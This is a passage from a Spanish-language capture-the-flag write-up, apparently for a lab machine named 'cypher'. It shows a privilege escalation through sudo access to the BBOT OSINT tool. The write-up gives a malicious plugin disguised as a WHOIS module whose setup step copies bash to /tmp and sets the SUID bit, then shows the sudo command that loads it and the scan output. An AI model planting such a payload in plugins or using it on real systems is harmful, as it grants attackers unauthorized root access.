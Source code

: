 {% code title="whois2.py" %}
```python
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
```
{% endcode %}

A través del siguiente comando, lo que realizaremos es cargar la configuración de `/tmp/myconf.yml` y le indicaremos que el módulo a importar es `whois2` que es el módulo `BBOT` malicioso creado.

```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (whois2)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[INFO] internal.excavate: Compiling 10 YARA rules
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[SUCC] Setup succeeded for 13/13 modules.
[SUCC] Scan ready. Press enter to execute chiseled_crystal

[WARN] No scan targets specified
[SUCC] Starting scan chiseled_crystal
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope, target)
[INFO] Finishing scan
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope)
[SUCC] Scan chiseled_crystal completed in 0 seconds with status FINISHED
[INFO] aggregate: +----------+------------+------------+
[INFO] aggregate: | Module   | Produced   | Consumed   |
[INFO] aggregate: +==========+============+============+
[INFO] aggregate: | None     | None       | None       |
[INFO] aggregate: +----------+------------+------------+
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/chiseled_crystal/output.csv
[INFO] output.json: Saved JSON output to /root/.bbot/scans/chiseled_crystal/output.json
[INFO] output.txt: Saved TXT output to /root/.bbot/scans/chiseled_crystal/output.txt
```
